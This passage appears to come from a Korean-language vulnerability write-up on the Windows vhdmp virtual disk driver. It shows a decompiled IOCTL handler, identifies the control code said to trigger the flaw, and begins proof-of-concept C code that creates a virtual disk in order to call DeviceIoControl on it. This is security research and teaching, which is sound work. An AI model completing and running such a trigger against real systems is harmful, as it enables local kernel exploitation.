 ```c
                  ...
                }
                v17 = v16 - 4;
                if ( !v17 )                     // IoControlCode == 0x2d1918
                {
                  ...
                }
                v18 = v17 - 4;
                if ( v18 )                      // IoControlCode != 0x2d1914
                {
                  v19 = v18 - 0xC;
                  if ( v19 )
                  {
                    v20 = v19 - 4;
                    if ( v20 )
                    {
                      if ( v20 == 0xC )         // IoControlCode == 0x2D1940
                                                // Call VhdmpiGetMetaInformation -> VhdmpiQueryMetadata
                      {
                        InternalScsiAddress = VhdmpiGetMetaInformation(a1, irp);
                        if ( InternalScsiAddress >= 0 )
                          goto LABEL_14;
                        if ( (unsigned int)dword_1C0082048 <= 2 || !tlgKeywordOn((__int64)&dword_1C0082048, 4LL) )
                          goto LABEL_16;
                        v22 = 4309;
                        pszFormat = "VhdmpiVhdControlObjectDeviceControlHandler: query virtual disk metadata request failed (0x%08x)";
                        goto LABEL_91;
                      }
                      goto LABEL_227;
                    }
                  ...
                }
              }
	...
}
```

이제 취약점을 트리거하기 위한 IoControlCode를 알아 냈으니 `DeviceIoControl`을 호출할 차례입니다. `DeviceIoControl`에는 `VirtDisk.h`에 정의된 `OpenVirtualDisk`나 `CreateVirtualDisk` 함수를 통해 얻어진 가상 하드 디스크의 HANDLE을 사용합니다.

아래는 CreateVirtualDisk을 호출해서 가상 하드 디스크를 생성하는 코드입니다.

```c
	DWORD status = 0;
	PWCHAR VhdxPath = VHDX_PATH;
	HANDLE Vhdx = NULL;
	GUID uniqueId;
	UuidCreate(&uniqueId);
	VIRTUAL_STORAGE_TYPE VStorType = { 0, };
	CREATE_VIRTUAL_DISK_PARAMETERS CreateParam = {
		.Version = CREATE_VIRTUAL_DISK_VERSION_2,
		.Version2 = {
			.UniqueId = uniqueId,
			.MaximumSize = 1073741824,//1GB
			.BlockSizeInBytes = 0,
			.SectorSizeInBytes = 512,
			.PhysicalSectorSizeInBytes = 512,
			.ParentPath = NULL
		},
	};
	ULONG SizeUsed = 0;
```